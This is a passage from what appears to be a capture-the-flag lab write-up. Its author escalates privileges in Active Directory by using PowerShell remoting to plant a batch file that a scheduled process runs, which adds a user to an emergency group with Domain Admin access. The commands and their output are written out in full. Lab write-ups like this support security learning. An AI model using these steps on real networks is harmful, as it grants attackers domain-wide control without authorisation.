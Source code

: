 ```
*Schema Admins
*Site_Admin
The command completed with one or more errors.

```

It’s description says it’s for emergencies and has access to Domain Admins:

```

PS C:\Utils> Invoke-Command -ScriptBlock { net group Site_Admin /domain  } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
Group name     Site_Admin
Comment        Only in the event of emergencies is this to be populated. This has access to Domain Admin group

Members
-------------------------------------------------------------------------------
The command completed successfully.

```

#### Add awallace

Given that `.bat` scripts are being run by Lois every five minutes, I’ll write a script to add awallace to `Site_Admin`:

```

PS C:\Utils> Invoke-Command -ScriptBlock { Set-Content -Path '\program files\keepmeon\0xdf.bat' -Value 'net group site_admin awallace /add /domain'} -ComputerName ATSSERVER -ConfigurationName dc_manage -Credenti
al $cred
PS C:\Utils> Invoke-Command -ScriptBlock { cat '\program files\keepmeon\0xdf.bat' } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
net group site_admin awallace /add /domain

```

I’ll note there’s no members of `Site_Admin` above (it’s only for emergencies), but after a few minutes, awallace is added:

```

PS C:\Utils> Invoke-Command -ScriptBlock { net group Site_Admin /domain  } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
Group name     Site_Admin
Comment        Only in the event of emergencies is this to be populated. This has access to Domain Admin group

Members
-------------------------------------------------------------------------------
awallace                 
The command completed successfully.

```
